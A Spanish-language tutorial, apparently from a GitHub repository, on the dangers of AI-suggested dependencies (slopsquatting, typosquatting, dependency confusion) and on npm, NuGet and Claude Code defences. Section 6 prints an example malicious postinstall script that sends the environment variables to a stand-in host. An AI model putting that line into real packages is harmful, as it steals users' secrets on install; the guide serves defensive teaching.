



# 📦 Dependencias sugeridas por IA (slopsquatting) — De cero a experto

> Esta lectura explica **el octavo patrón peligroso del código generado por IA**: las dependencias. Va desde *por qué la IA inventa paquetes* hasta **slopsquatting, scripts de instalación, lockfiles, SBOM y políticas de dependencias** en Node y .NET.
>
> **Idea central:** cuando el modelo escribe `npm install x` o `dotnet add package X`, está **eligiendo código de un tercero que se ejecutará con tus permisos**. Y lo elige por probabilidad estadística, no porque haya verificado que el paquete existe, está mantenido o es legítimo. La pregunta no es *"¿compila?"*, sino:
>
> **¿Quién escribió este paquete, existe de verdad y qué ejecuta al instalarse?**

> [!NOTE]
> Los diagramas usan **Mermaid**, que se renderiza en GitHub y en VS Code.

---

## 📑 Tabla de contenido

**Nivel 0 — Fundamentos**
1. [Por qué las dependencias son superficie de ataque](#1-por-qué-las-dependencias-son-superficie-de-ataque)
2. [Alucinación de paquetes](#2-alucinación-de-paquetes)

**Nivel 1 — Ataques**
3. [Slopsquatting](#3-slopsquatting)
4. [Typosquatting y confusión de nombres](#4-typosquatting-y-confusión-de-nombres)
5. [Dependency confusion](#5-dependency-confusion)
6. [Scripts de instalación](#6-scripts-de-instalación)
7. [Paquetes abandonados, vulnerables o secuestrados](#7-paquetes-abandonados-vulnerables-o-secuestrados)

**Nivel 2 — Defensa práctica**
8. [Verificar un paquete antes de instalarlo](#8-verificar-un-paquete-antes-de-instalarlo)
9. [Node.js: npm seguro](#9-nodejs-npm-seguro)
10. [.NET: NuGet seguro](#10-net-nuget-seguro)
11. [Controlar a Claude Code](#11-controlar-a-claude-code)

**Nivel 3 — Experto**
12. [Lockfiles, SBOM y procedencia](#12-lockfiles-sbom-y-procedencia)
13. [Políticas de organización](#13-políticas-de-organización)
14. [Checklist final](#14-checklist-final)

---

## Nivel 0 — Fundamentos

## 1. Por qué las dependencias son superficie de ataque

Una aplicación moderna es **mayoritariamente código ajeno**: un proyecto Express con 10 dependencias directas puede arrastrar cientos de dependencias transitivas.



Antes de la IA, añadir una dependencia era una decisión consciente: buscabas, comparabas y elegías. Con la IA, **el modelo la añade en medio de una respuesta**, y es fácil aceptarla sin pensarlo.

## 2. Alucinación de paquetes

Los modelos generan nombres de paquetes que **suenan plausibles pero no existen**: `express-jwt-validator`, `react-pdf-export-utils`, `EntityFrameworkCore.BulkHelpers`.

Ocurre porque el modelo combina patrones de nombres frecuentes. Varios estudios académicos han medido que un porcentaje no trivial de los paquetes recomendados por LLMs **no existen**, y que muchos de esos nombres inventados **se repiten** entre ejecuciones del mismo prompt.

> [!IMPORTANT]
> Que el nombre se repita es justo lo que lo vuelve explotable: un atacante puede predecir qué nombres inventará la IA.

---

## Nivel 1 — Ataques

## 3. Slopsquatting

Término acuñado para describir el ataque que aprovecha la alucinación de paquetes:



El desarrollador no se equivocó al escribir: **la IA eligió un nombre que el atacante ya había registrado**.

## 4. Typosquatting y confusión de nombres

| Legítimo | Malicioso (ejemplo) | Técnica |
|----------|---------------------|---------|
| `lodash` | `lodahs` | Error tipográfico |
| `cross-env` | `crossenv` | Sin guion |
| `Newtonsoft.Json` | `Newtonsoft.Json.Net` | Sufijo plausible |
| `@nestjs/core` | `nestjs-core` | Sin scope |

La IA también comete este tipo de "errores" cuando reconstruye nombres de memoria.

## 5. Dependency confusion

Si tu empresa usa un paquete interno (`@sinco/auth-utils` o `Sinco.Common`) y el gestor de paquetes también consulta el registro público, un atacante puede publicar **un paquete público con el mismo nombre y una versión mayor**. El gestor puede preferir el público.

**Mitigación:** usa **scopes** reservados en npm (`@empresa/`), prefijos reservados en NuGet y configura qué registro sirve cada paquete (ver secciones 9 y 10).

## 6. Scripts de instalación

```json
// package.json de un paquete malicioso
{
  "scripts": {
    "postinstall": "node -e \"require('https').get('https://evil.example/?t='+Buffer.from(JSON.stringify(process.env)).toString('base64'))\""
  }
}
```

`npm install` ejecuta `preinstall`, `install` y `postinstall` **de todas las dependencias** (también las transitivas). Basta con instalar para quedar comprometido; no hace falta ni importar el paquete.

En .NET, los paquetes pueden incluir **MSBuild targets** (`build/*.targets`) que se ejecutan durante el `dotnet build`.

## 7. Paquetes abandonados, vulnerables o secuestrados

- **Abandonados:** la IA recomienda lo que vio en su entrenamiento, que puede tener años. Ejemplo: `request` (deprecado) en lugar de `fetch` nativo.
- **Vulnerables:** versiones antiguas con CVE conocidos.
- **Secuestrados:** un mantenedor pierde su cuenta y se publica una versión maliciosa de un paquete legítimo (casos reales: `event-stream`, `ua-parser-js`, `xz-utils`).

---

## Nivel 2 — Defensa práctica

## 8. Verificar un paquete antes de instalarlo



Comandos rápidos:

```bash
npm view nombre-paquete name version time.created maintainers repository
npm view nombre-paquete scripts
```

```bash
dotnet package search Nombre.Paquete --exact-match
```

> [!TIP]
> La mejor dependencia es la que no añades. Pregunta a Claude: *"¿Se puede hacer esto con la librería estándar de Node 22 / .NET?"*. A menudo sí (`fetch`, `crypto.randomUUID`, `structuredClone`, `System.Text.Json`).

## 9. Node.js: npm seguro

```ini
# .npmrc del proyecto
ignore-scripts=true          # no ejecutar scripts de instalación por defecto
save-exact=true              # versiones exactas en package.json
audit-level=high
@empresa:registry=https://npm.empresa.com/   # scope interno → registro interno
```

```bash
npm ci                       # instala exactamente lo del lockfile (en CI siempre)
npm audit --omit=dev         # vulnerabilidades conocidas
npm audit signatures         # verifica firmas y procedencia
npx lockfile-lint --path package-lock.json --allowed-hosts npm --validate-https
```

> [!NOTE]
> Con `ignore-scripts=true`, algunos paquetes con binarios nativos (por ejemplo `better-sqlite3` o `bcrypt`) necesitan una compilación explícita (`npm rebuild nombre`). Es una molestia buscada: decides tú qué ejecuta código al instalarse.

## 10. .NET: NuGet seguro

```xml
<!-- nuget.config: asignar cada patrón de paquete a una fuente -->
<configuration>
  <packageSources>
    <clear />
    <add key="nuget.org" value="https://api.nuget.org/v3/index.json" />
    <add key="interno" value="https://nuget.empresa.com/v3/index.json" />
  </packageSources>
  <packageSourceMapping>
    <packageSource key="interno"><package pattern="Sinco.*" /></packageSource>
    <packageSource key="nuget.org"><package pattern="*" /></packageSource>
  </packageSourceMapping>
</configuration>
```

```xml
<!-- .csproj: lockfile y auditoría -->
<PropertyGroup>
  <RestorePackagesWithLockFile>true</RestorePackagesWithLockFile>
  <NuGetAudit>true</NuGetAudit>
  <NuGetAuditLevel>moderate</NuGetAuditLevel>
</PropertyGroup>
```

```bash
dotnet list package --vulnerable --include-transitive
dotnet list package --deprecated
dotnet restore --locked-mode     # en CI: falla si el lockfile no coincide
```

`packageSourceMapping` es la defensa principal contra *dependency confusion* en .NET.

## 11. Controlar a Claude Code

**Permisos:** que instalar dependencias siempre requiera confirmación.

```json
{
  "permissions": {
    "ask": [
      "Bash(npm install:*)", "Bash(npm i:*)", "Bash(npx:*)",
      "Bash(pnpm add:*)", "Bash(yarn add:*)",
      "Bash(dotnet add package:*)"
    ]
  }
}
```

**`CLAUDE.md`:**

```markdown
## Dependencias
- No añadas dependencias sin preguntar. Primero propón la alternativa con la librería estándar.
- Si propones un paquete: nombre exacto, enlace al registro, descargas semanales,
  última publicación y si tiene scripts de instalación.
- Versiones exactas; nunca paquetes deprecados.
```

**Hook `PreToolUse`:** comprobar que el paquete existe y tiene una antigüedad mínima antes de dejar que se instale.

```js
// .claude/hooks/verificar-paquete.js (matcher: "Bash")
import { execFileSync } from 'node:child_process';
const chunks = [];
for await (const c of process.stdin) chunks.push(c);
const cmd = JSON.parse(Buffer.concat(chunks)).tool_input?.command ?? '';
const m = cmd.match(/\bnpm\s+(?:install|i|add)\s+(.+)/);
if (!m) process.exit(0);

const paquetes = m[1].split(/\s+/).filter((p) => p && !p.startsWith('-'));
for (const p of paquetes) {
  const nombre = p.replace(/@[^@/]*$/, '') || p; // quitar @version
  try {
    const creado = execFileSync('npm', ['view', nombre, 'time.created'], { encoding: 'utf8', shell: process.platform === 'win32' }).trim();
    const dias = (Date.now() - new Date(creado)) / 86_400_000;
    if (dias < 30) {
      console.error(`"${nombre}" se publicó hace ${Math.round(dias)} días. Verifícalo manualmente.`);
      process.exit(2);
    }
  } catch {
    console.error(`"${nombre}" no existe en npm. ¿Paquete alucinado?`);
    process.exit(2);
  }
}
process.exit(0);
```

---

## Nivel 3 — Experto

## 12. Lockfiles, SBOM y procedencia

| Herramienta | Qué aporta |
|------------|-----------|
| **Lockfile** (`package-lock.json`, `packages.lock.json`) | Versiones e *integrity hashes* exactos; se versiona y se revisa en los PRs |
| **SBOM** (CycloneDX, SPDX) | Inventario de todo lo que va en el producto; permite responder *"¿estamos afectados por el CVE X?"* en minutos |
| **Procedencia (npm provenance, Sigstore)** | Prueba de que el paquete se construyó desde un repo y un pipeline concretos |
| **Dependabot / Renovate** | Actualizaciones controladas por PR, con changelog |
| **Socket, Snyk, OSV-Scanner** | Detección de comportamientos sospechosos y vulnerabilidades |

```bash
npx @cyclonedx/cyclonedx-npm --output-file sbom.json
dotnet CycloneDX MiProyecto.csproj -o ./sbom
```

> [!TIP]
> Revisa el **diff del lockfile** en cada PR generado con IA. Si aparecen 40 paquetes nuevos por "un helper pequeño", pregunta por qué.

## 13. Políticas de organización

- **Registro proxy interno** (Artifactory, Azure Artifacts, Verdaccio) que solo sirve paquetes aprobados o con cuarentena para versiones nuevas (por ejemplo, ninguna versión con menos de 7 días).
- **Scopes y prefijos reservados** para paquetes internos.
- **CI que falla** con vulnerabilidades altas, lockfile desincronizado o licencias no permitidas.
- **Lista de dependencias recomendadas** por stack, enlazada desde el `CLAUDE.md` del equipo.

## 14. Checklist final

- [ ] ¿El paquete existe con ese nombre exacto en el registro oficial?
- [ ] ¿Tiene antigüedad, descargas, mantenedores y repositorio razonables?
- [ ] ¿Ejecuta scripts al instalarse? ¿Los revisé?
- [ ] ¿Se podía hacer con la librería estándar?
- [ ] ¿Versión exacta y lockfile actualizado y revisado?
- [ ] ¿`npm audit` / `dotnet list package --vulnerable` en verde?
- [ ] ¿Los paquetes internos están protegidos con scope / `packageSourceMapping`?
- [ ] ¿Claude Code pide confirmación antes de instalar?
